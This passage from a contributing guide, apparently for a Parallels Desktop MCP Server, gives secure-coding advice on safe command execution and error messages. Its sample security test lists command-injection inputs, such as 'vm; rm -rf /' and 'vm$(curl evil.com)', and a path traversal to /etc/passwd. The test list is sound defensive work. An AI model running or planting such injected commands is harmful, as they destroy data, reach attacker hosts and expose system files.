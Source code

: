 ### Command Execution

Use `execFile` instead of `exec`:

```typescript
// Good
execFile('prlctl', args, callback);

// Bad
exec(`prlctl ${args.join(' ')}`, callback);
```

### Error Messages

Don't expose sensitive information:

```typescript
// Good
throw new Error('VM operation failed');

// Bad
throw new Error(`Failed to execute: ${command} with ${secretData}`);
```

### Testing Security

Include security-focused tests:

```typescript
const maliciousInputs = [
  'vm; rm -rf /',
  'vm`echo pwned`',
  'vm$(curl evil.com)',
  '../../../etc/passwd'
];

test.each(maliciousInputs)(
  'should sanitize: %s',
  (input) => {
    // Test sanitization
  }
);
```

## Getting Help

- **Questions**: Open a GitHub issue with the "question" label
- **Bugs**: Open a GitHub issue with reproduction steps
- **Ideas**: Open a GitHub issue with the "enhancement" label
- **Security**: Email security concerns privately

## Recognition

Contributors are recognized in:
- The project README
- Release notes
- GitHub contributors page

Thank you for contributing to make Parallels Desktop MCP Server better!